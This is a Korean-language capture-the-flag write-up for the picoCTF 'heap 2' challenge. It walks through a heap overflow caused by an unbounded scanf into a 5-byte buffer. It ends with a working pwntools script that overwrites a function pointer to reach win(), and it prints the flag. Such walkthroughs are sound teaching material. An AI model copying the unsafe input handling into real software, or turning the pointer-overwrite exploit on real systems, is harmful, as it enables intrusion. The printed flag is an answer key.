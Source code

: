 # [heap 2](https://play.picoctf.org/practice/challenge/435?category=6&originalEvent=73&page=1)
<br />

**Description:**
> Can you handle function pointers?
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64

int num_allocs;
char *x;
char *input_data;

void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }

void print_menu() {
    printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. "
           "Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("[*]   Address   ->   Value   \n");
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+-----------+\n");
    printf("[*]   %p  ->   %s\n", x, x);
    fflush(stdout);
}

int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
<br />

**Binary Protections:**
```yaml
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

[*] '/home/kali/pico/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
```
<br />
<br />

```c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```
`write_buffer()`에서 사용된 `scanf()`는 입력을 받아, `input_data`에 저장합니다. 여기서 사용된 포맷 스트링은 입력 받을 길이를 지정하지 않았으므로, 버퍼오버플로우가 발생합니다.

```c
void init() {

    printf("\nI have a function, I sometimes like to call it, maybe you should change it\n");
    fflush(stdout);

    input_data = malloc(5);
    strncpy(input_data, "pico", 5);
    x = malloc(5);
    strncpy(x, "bico", 5);
}
```
그리고 사용된 소스코드를 보면 `input_data`, `x`를 `malloc()`으로 메모리 할당을 하고, 각 영역에 문자열 `pico`, `bico`를 저장하는 것을 알 수 있습니다. 이 정보로 `input_data`에서는 힙 버퍼오버플로우가 발생합니다.

그렇다면 문제를 풀이하기 위해서는 해당 취약점으로 `x`의 값을 `win()`의 주소로 덮고, `check_win()` 함수를 호출해야 합니다. `x`의 값을 조작하기 위해서 힙 영역의 오프셋을 계산하겠습니다.

<br />

```yaml
$ ./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value
+-------------+-----------+
[*]   0x433f6b0  ->   pico
+-------------+-----------+
[*]   0x433f6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 3


x = bico
```

문제에서 제공되는 주소 `0x433f6b0`, `0x433f6d0`는 각각 문자열 `pico`, `bico`를 가리키고 있으며, 소스코드 분석을 통해 각 주소는 `input_data`, `x`임을 알 수 있습니다. 두 주소를 빼면 포인터 간의 오프셋을 계산할 수 있습니다.

> [!NOTE]
> `0x433f6d0 - 0x433f6b0 = 0x20`


오프셋은 `0x20`입니다. 오프셋에 `win()`의 주소를 더해 입력하고, check_win을 호출하면 FLAG를 획득할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"

p = remote("mimas.picoctf.net", 53269)
e = ELF("./chall", checksec=False)

send = lambda data: p.sendlineafter(b": ", data)

send(b"2")
send(b"A"*0x20 + p64(e.sym["win"]))
send(b"4")

p.interactive()
```
```bash
$ python3 test.py
picoCTF{and_down_the_road_we_go_7c8d6f32}
$
```
